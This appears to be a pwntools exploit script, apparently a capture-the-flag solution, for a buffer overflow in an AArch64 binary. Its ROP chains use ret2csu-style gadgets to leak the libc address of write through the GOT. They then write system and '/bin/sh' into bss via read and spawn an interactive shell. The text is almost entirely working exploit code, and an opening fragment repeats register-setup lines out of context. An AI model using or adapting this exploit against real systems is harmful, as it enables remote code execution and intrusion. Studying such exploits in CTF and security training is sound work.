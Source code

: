 ```plain
    pl += p64(1)    #x20 --0


    pl += p64(read_addr)    #x21 --addr
    pl += p64(0)        #x22 --x0


    pl += p64(bss+0x100)    #x23 --x1
    pl += p64(0x40) #x24 --x2

    pl += p64(0xdeadbeef)   #x29
    pl += p64(main) #x30

g1 = 0x400810
g2 = 0x4007F0
main = 0x40076c
bss1 = 0x0411140 #bss+0x100


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) #main , 0x100000000
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['write']) + p64(1) ##x21 --addr  x22 --x0
pl+= p64(elf.got['write']) + p64(0x8) #x23 --x1  x24 --x2
pl+= p64(0) +p64(main) #x29   x30

p.sendlineafter('Hello, World\n',pl)


write_addr = uu64(r(6))
li('write_addr'+hex(write_addr))
libcbase = write_addr - libc.sym['write']
li('libcbase'+hex(libcbase))
system = libcbase + libc.sym['system']
li('system'+hex(system))


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['read']) + p64(0) #x21 --addr  x22 --x0
pl+= p64(bss1) + p64(0x20) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30

p.sendlineafter('Hello, World\n',pl)

p.sendline(p64(system)+b'/bin/sh\x00')


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(bss1) + p64(bss1+8) #x21 --addr  x22 --x0
pl+= p64(0) + p64(0) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
p.sendlineafter('Hello, World\n',pl)

p.interactive()
```

